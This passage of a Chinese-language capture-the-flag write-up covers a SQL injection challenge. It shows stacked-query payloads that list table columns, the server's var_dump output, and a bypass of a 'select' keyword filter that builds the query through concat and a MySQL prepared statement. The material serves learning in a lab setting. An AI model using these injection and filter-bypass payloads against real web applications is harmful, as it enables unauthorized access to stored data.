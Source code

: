    * *1';show columns from FLAG_TABLE from ctftraining;'*，返回内容如下

     ```php
     array(6) {
       [0]=>
       string(11) "FLAG_COLUMN"
       [1]=>
       string(12) "varchar(128)"
       [2]=>
       string(2) "NO"
       [3]=>
       string(0) ""
       [4]=>
       string(8) "not_flag"
       [5]=>
       string(0) ""
     }
     ```

7. 由于使用不了select，被卡住了

## 别人的解题方法

1. 使用payload：*1';show columns from \`1919810931114514\`;'*，网页返回内容

   ```php
   array(6) {
     [0]=>
     string(4) "flag"
     [1]=>
     string(12) "varchar(100)"
     [2]=>
     string(2) "NO"
     [3]=>
     string(0) ""
     [4]=>
     NULL
     [5]=>
     string(0) ""
   }
   ```

   > 我在这一步并没有返回数据，是因为没有给字串加反引号
   >
   > 当字串为数据库的保留字时，需要使用反引号加以标识，使它被当作普通字符串使用
   >
   > 1. 当执行某个命令多次没结果且无语法报错时，记得查看是否是保留字
   > 2. 养成在sql语句中使用反引号的习惯

2. 由于存在堆叠注入，所以可以使用mysql预处理语句，访问网页，网页返回内容为“strstr($inject, "set") && strstr($inject, "prepare")"

   ```sql
   1';
   use supersqli;
   set @sql=concat('s','elect `flag` from `1919810931114514`');
   prepare realsql from @sql;
   execute realsql;
   ```
